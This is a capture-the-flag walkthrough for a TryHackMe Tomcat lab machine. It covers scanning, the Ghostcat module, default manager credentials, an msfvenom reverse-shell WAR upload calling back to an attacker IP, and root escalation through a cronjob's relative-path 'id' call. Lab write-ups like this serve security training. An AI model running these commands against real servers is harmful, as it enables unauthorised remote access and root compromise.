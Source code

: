 ```yaml
---

title: Walkthrough - Thompson
published: true
---
```


Security, Apache Tomcat. Boot2root machine for FIT and bsides guatemala CTF.

[https://tryhackme.com/room/bsidesgtthompson](https://tryhackme.com/room/bsidesgtthompson)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
```

```
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.48.147
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1472673232000"
Last-Modified: Wed, 31 Aug 2016 19:53:52 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

- `gobuster dir -u http://10.10.48.147:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error -x txt,php,html`

checking out `/manager/` we get a login screen, trying creds there doesnt work but clicking cancel give us a hint. 
- `<user username="tomcat" password="s3cret" roles="manager-gui"/>` we can use these to login.

Now that we have access we can upload a java .war shell and setup a `pwncat` listener to recieve it

- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.127.225 LPORT=6969 -f war -o shell.war`
- `pwncat-cs -lp 6969`

![](/assets/thompson01.png)

* * * 

## What is the user flag?

![](/assets/thompson02.png)

* * * 

## What is the root flag?

- root is running a cronjob `*  *    * * *   root    cd /home/jack && bash id.sh`

- `id.sh`

```
#!/bin/bash
id > test.txt
```

this script is just running id but it isnt using the intire path to id so if we create another script called id we can open up a root shell

![](/assets/thompson03.png)

* * * 

